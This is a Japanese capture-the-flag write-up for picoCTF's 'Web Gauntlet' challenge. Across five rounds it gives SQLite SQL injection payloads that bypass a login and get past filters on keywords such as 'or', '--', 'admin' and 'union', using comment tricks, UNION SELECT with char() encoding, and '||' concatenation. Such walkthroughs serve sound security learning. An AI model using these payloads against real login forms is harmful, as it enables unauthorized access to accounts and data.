

#### 作成日: 2021/01/09

# [Web] Web Gauntlet - 200 points

## Description:
Can you beat the filters? Login as admin  
http://jupiter.challenges.picoctf.org:19593/  
http://jupiter.challenges.picoctf.org:19593/filter.php  

## Hints:
- You are not allowed to login with valid credentials.  
- Write down the injections you use in case you lose your progress.  
- For some filters it may be hard to see the characters, always (always) look at the raw hex in the response.  
- sqlite  
- If your cookie keeps getting reset, try using a private browser window  

## Solution:
### Round 1/5

filter.phpに```Round1: or```と記載されており、ORが使えない。  
シングルクォートとハイフンを使用してusername以降の入力を無効化(コメントアウト)する。  
usename: ```admin'--```  
password: ```任意の文字(何でもいい)```  
を入力してSIGN INする。

### Round 2/5
filter.phpをリロードすると、Round1でサインインできたCookieが読み込まれ、```Round2: or and like = --```と表示される。  
OR文とハイフンによるコメントアウトが使用できないが、sqliteは```/**/```でのコメントアウトが可能なのでこれを試す。  
username: ```admin'/*```  
password: ```任意の文字```  

### Round 3/5
filter.phpに```Round3: or and = like > < --```と表示される。  
```/**/```でコメントアウトすることは可能なのでRound2と同様にサインインする。  
username: ```admin'/*```  
password: ```任意の文字```  

### Round 4/5
filter.phpに```Round4: or and = like > < -- admin```と表示される。  
今度は```admin```という文字列が使用できないためascii変換を行い、またSELECT文を追加してUNION句で統合させる。  
username: ```'/**/union/**/select*from/**/users/**/where/**/username/**/in(char(97,100,109,105,110))/*```  
password: ```任意の文字```  

ちなみに有効なSQLであれば問題ないので、下記でもサインイン自体は可能。  
username: ```'/**/union/**/select*from/**/users/**/limit/**/1/*```  
password: ```任意の文字```  

### Round 5/5
filter.phpに```Round5: or and = like > < -- union admin```と記載されている通り、今度はUNION句が使えない。  
```||(ダブルパイプ)```を用いて文字列を連結させ、下記によるサインインを試みる。  
username: ```'||'adm'||'in'/*```  
password: ```任意の文字```  

※Round 1/5からダブルパイプでサインインできると思われる。


サインイン後、filter.phpを確認しろと言われるのでfilter.phpをリロードすると、末尾にFLAGが表示される。
